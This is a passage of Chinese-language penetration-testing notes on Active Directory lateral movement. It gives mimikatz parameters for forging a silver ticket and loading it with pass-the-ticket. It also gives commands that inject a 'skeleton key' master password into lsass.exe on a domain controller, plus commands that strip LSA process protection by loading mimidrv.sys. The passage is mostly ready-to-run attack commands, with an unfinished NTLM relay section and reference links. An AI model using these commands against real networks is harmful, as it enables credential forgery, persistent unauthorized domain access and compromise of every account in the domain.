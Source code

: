 参数说明：

```
/domain：当前域名称
/sid：SID值，和金票一样取前面一部分
/target：目标主机，这里是OWA2010SP3.0day.org
/service：服务名称，这里需要访问共享文件，所以是cifs
/rc4：目标主机的HASH值
/user：伪造的用户名
/ptt：表示的是Pass TheTicket攻击，是把生成的票据导入内存，也可以使用/ticket导出之后再使用kerberos::ptt来导入
```

这时通过klist查看当前会话的kerberos票据可以看到生成的票据。

使用`dir \\OWA2010SP3.0day.org\c$`访问DC的共享文件夹。



### skeleton key

skeleton key(万能钥匙)就是给所有域内用户添加一个相同的密码，域内所有的用户 都可以使用这个密码进行认证，同时原始密码也可以使用，其原理是对 lsass.exe 进行注 入，所以重启后会失效。

```
#在域控上安装 skeleton key
mimikatz.exe privilege::debug "misc::skeleton"

#在域内其他机器尝试使用 skeleton key 去访问域控，添加的密码是 mimikatz
net use \\WIN-9P499QKTLDO.adtest.com\c$ mimikatz /user:adtest\administrator`
```

微软在 2014 年 3 月 12 日添加了 LSA 爆护策略，用来防止对进程 lsass.exe 的代码注入。如果直接尝试添加 skelenton key 会失败。

```
#适用系统
windows 8.1
windows server 2012 及以上` 
```

当然 mimikatz 依旧可以绕过，该功能需要导入mimidrv.sys文件，导入命令如下:

```
privilege::debug
!+
!processprotect /process:lsass.exe /remove 
misc::skeleton`
```

## NTLM中继
挖坑，待补

## 参考
[浅探内网横向移动-Pass The Hash](https://xz.aliyun.com/t/8117)

[内网横向移动：利用WMI来渗透](https://www.freebuf.com/articles/246440.html)

[内网渗透之IPC$入侵](https://www.cnblogs.com/bmjoker/p/10355934.html)

[浅析黄金票据与白银票据](https://shu1l.github.io/2020/06/06/qian-xi-huang-jin-piao-ju-yu-bai-yin-piao-ju/)

